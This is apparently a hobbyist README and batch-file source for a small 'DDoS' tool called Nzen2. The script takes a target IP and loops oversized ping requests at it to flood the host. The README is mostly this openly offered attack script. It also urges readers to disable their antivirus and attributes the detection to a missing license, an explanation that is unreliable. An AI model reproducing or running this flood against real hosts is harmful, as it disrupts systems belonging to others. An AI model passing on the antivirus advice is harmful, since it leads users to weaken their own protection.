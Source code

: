 # DDOS-Nzen2
A small DDos program that will (In theory) take down your old 2003 laptop.
It won't harm anyone, nor anything.
Idk how you would take down a server with this, maybe running multiple instances of it...

Antiviruses DO flag this as a virus/threat, but in reality it's because I have no license with this.
If you do not believe me, just don't run the program!
I mean, It's not like it does anything.

If you do want to run the program, (Maybe benchmark a bunch of chinese off-brand Rasberry-Pie network adapters,
Just disable your antivirus while you run it.




:DOCUMENTATION:
This program was written in batch, and recompiled with BtE.

The first chunk of the code is a segment of the BtE API.
Random UUids coupled with some strings.

Next chunk is the fake loading screen, which I just added to make
the whole thing look more organized.
It echos a started message, (To log.txt)
and then echos ping localhost, (To log.txt)
then there is a textbook set variable command, (Which then is echoed to log.txt)
and then a few danger messages,
The ddos actually happens.
It will repeat ping requests that will down the shields on your 2003 Arsenal Bird. ;)
BELKA DID EVERYTHING WRONG!!!

Code:

::[BtE Compiler]
::
::YAwzoRdxOk+EWAnk
::fBw5plQjdG8=
::YAwzuBVtJxjWCl3EqQJgSA==
::ZR4luwNxJguZRRnk
::Yhs/ulQjdF+5
::cxAkpRVqdFKZSjk=
::cBs/ulQjdF+5
::ZR41oxFsdFKZSDk=
::eBoioBt6dFKZSDk=
::cRo6pxp7LAbNWATEpCI=
::egkzugNsPRvcWATEpCI=
::dAsiuh18IRvcCxnZtBJQ
::cRYluBh/LU+EWAjk
::YxY4rhs+aU+JeA==
::cxY6rQJ7JhzQF1fEqQJQ
::ZQ05rAF9IBncCkqN+0xwdVs0
::ZQ05rAF9IAHYFVzEqQJQ
::eg0/rx1wNQPfEVWB+kM9LVsJDGQ=
::fBEirQZwNQPfEVWB+kM9LVsJDGQ=
::cRolqwZ3JBvQF1fEqQJQ
::dhA7uBVwLU+EWDk=
::YQ03rBFzNR3SWATElA==
::dhAmsQZ3MwfNWATElA==
::ZQ0/vhVqMQ3MEVWAtB9wSA==
::Zg8zqx1/OA3MEVWAtB9wSA==
::dhA7pRFwIByZRRnk
::Zh4grVQjdCyDJGyX8VAjFB5QRRCNAE+/Fb4I5/jHwfCCrB9QcMYQS8L806CyA+8e+kzocJIb02hmvO8DH1VdZhfL
::YB416Ek+ZW8=
::
::
::978f952a14a936cc963da21a135fa983
@echo off
cls
title DDos Nzen2- Loading
echo Started: >> log.txt
ping localhost >> log.txt
title DDos Tool Nzen2- Press anything to continue
pause
title Waiting input
goto PreAttack

:PreAttack
cls
echo ---Enter Attack IP---
set /p AttackIP=
Echo Attack IP set to %AttackIP%
echo Attack IP set! >> log.txt
echo IP: >> log.txt
echo %AttackIP% >> log.txt
pause
goto Attacklaunch

:Attacklaunch
cls
echo FINAL CHECK: ARE YOU SURE
pause
title Launcher
goto Attack

:Attack
cls
pause goto DDos

:DDos
:loop
ping %AttackIP% -l 65500 -w 1 -n 1
goto :loop
